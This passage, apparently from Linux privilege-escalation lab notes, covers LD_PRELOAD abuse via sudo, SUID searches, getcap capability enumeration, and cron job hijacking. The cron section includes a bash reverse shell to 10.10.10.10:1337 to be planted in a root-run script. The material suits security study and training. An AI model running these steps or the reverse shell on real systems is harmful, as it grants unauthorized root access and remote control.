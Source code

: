 We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo. <br>
We need to run the program by specifying the LD_PRELOAD option, as follows;
```bash
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

## SUID
Looking for the SUID or SGID bits set for any applications. We specifically want it to where we can evelate to root temporarily.
```bash
find / -type f -perm -04000 -ls 2> /dev/null
```

## Capabilities
Capabilities help manage privileges at a more granular level. For example, if the SOC analyst needs to use a tool that needs to initiate socket connections, a regular user would not be able to do that. If the sys admin does not want to give this user higher privileges, they can change the capabilities of the binary. As a result, the binary would get through its task without needing a higher privilege user. We can use the getcap tool to list enabled capabilities.
```bash
$ getcap -r / 2> /dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/home/karen/vim = cap_setuid+ep
/home/ubuntu/view = cap_setuid+ep
$ ls -la /usr/bin/vim
lrwxrwxrwx 1 root root 21 Oct 26  2020 /usr/bin/vim -> /etc/alternatives/vim
```
Note that vim does not have the SUID bit set and thus would not show up during our find command.

## Cron Jobs
Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions. The idea is simple; if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges. Our goal will be to find a cron job set by root and have it run our script, ideally a shell.<br>
Any user can read the file keeping system-wide cron jobs under <b>/etc/crontab</b>
Modyfing shell scripts:
```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.10.10/1337 0>&1
```
Sometimes sys admins remove files that are configured to run as root but don't remove the cronjob for it. Thus, if a cronjob for a program/script does not exist, you can write a script to replace it.

